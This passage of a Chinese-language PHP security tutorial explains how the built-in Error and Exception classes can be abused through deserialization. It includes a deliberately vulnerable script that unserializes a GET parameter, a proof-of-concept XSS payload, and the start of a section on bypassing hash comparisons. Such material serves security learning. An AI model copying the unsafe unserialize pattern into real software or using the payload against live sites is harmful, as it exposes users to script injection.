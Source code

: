 ```php
```

## Error/Exception 内置类
### 使用 Error/Exception 内置类进行 XSS
> `Error`类是`PHP`的一个内置类，用于自动自定义一个`Error`，在`php7`的环境下可能会造成一个`xss`漏洞，因为它内置有一个`__toString()`方法，常用于PHP 反序列化中
> `Exception`类和`Error`类类似

> 使用情形

```php
Error 内置类:
    适用于php7版本
    开启报错的情况下

Exception 内置类:
    适用于php5、7版本
    开启报错的情况下
```

> 测试代码如下：

```php
<?php
    $demo = unserialize($_GET['cmd']);
    echo $demo;
?>
```
> `POC`代码

```php
<?php
$demo = new Error("<script>alert('h3rmesk1t')</script>");
echo urlencode(serialize($demo));
?>
```
<img src="./PHP原生类/3.png" alt="">

### 使用 Error/Exception 内置类绕过哈希比较
> `Error`和`Exception`这两个`PHP`内置类，不仅限于`XSS`，还可以通过巧妙的构造绕过`md5()`函数和`sha1()`函数的比较

#### Error 类
> `Error`是所有`PHP`内部错误类的基类，该类是在`PHP7.0.0`中开始引入的
